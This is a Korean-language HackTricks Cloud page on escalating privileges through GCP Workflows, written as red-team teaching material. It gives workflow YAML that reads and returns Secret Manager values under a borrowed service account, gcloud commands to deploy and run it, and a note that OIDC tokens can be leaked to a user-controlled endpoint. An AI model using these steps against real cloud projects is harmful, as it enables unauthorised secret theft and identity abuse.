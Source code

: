# GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

기본 정보:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

내가 아는 한, Workflow에 연결된 SA 자격 증명을 포함하는 메타데이터 엔드포인트에 접근하여 쉘을 얻는 것은 불가능하다. 그러나 Workflow 내에서 수행할 작업을 추가하여 SA의 권한을 남용하는 것은 가능하다.

커넥터의 문서를 찾는 것이 가능하다. 예를 들어, 이것은 [**Secretmanager 커넥터의 페이지**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**이다.** 사이드 바에서 여러 다른 커넥터를 찾을 수 있다.

그리고 여기 비밀을 출력하는 커넥터의 예를 찾을 수 있다:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
CLI에서 업데이트:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
`ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`와 같은 오류가 발생하면, **1분 정도 기다렸다가 다시 시도하세요**.

웹 접근 권한이 없는 경우, 다음을 사용하여 Workflow의 실행을 트리거하고 볼 수 있습니다:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
이전 실행의 출력을 확인하여 민감한 정보를 찾을 수도 있습니다.
{% endhint %}

권한이 없기 때문에 `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...`와 같은 오류가 발생하더라도, 워크플로우는 생성되었습니다.

### OIDC 토큰 유출 (및 OAuth?)

[**문서에 따르면**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) 워크플로우 단계에서 OAuth 또는 OIDC 토큰으로 HTTP 요청을 보낼 수 있습니다. 그러나 [Cloud Scheduler](gcp-cloudscheduler-privesc.md)와 마찬가지로, Oauth 토큰을 포함한 HTTP 요청은 호스트 `.googleapis.com`으로 보내야 합니다.

{% hint style="danger" %}
따라서, **사용자가 제어하는 HTTP 엔드포인트를 지정하여 OIDC 토큰을 유출할 수 있습니다**. 그러나 **OAuth** 토큰을 유출하려면 **그 보호를 우회해야** 합니다. 그러나 여전히 **커넥터 또는 OAuth 토큰을 사용한 HTTP 요청을 통해 SA를 대신하여 GCP API에 연락할 수 있습니다.**
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

이 권한을 사용하면 `workflows.workflows.create` 대신 이미 존재하는 워크플로를 업데이트하고 동일한 공격을 수행할 수 있습니다.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
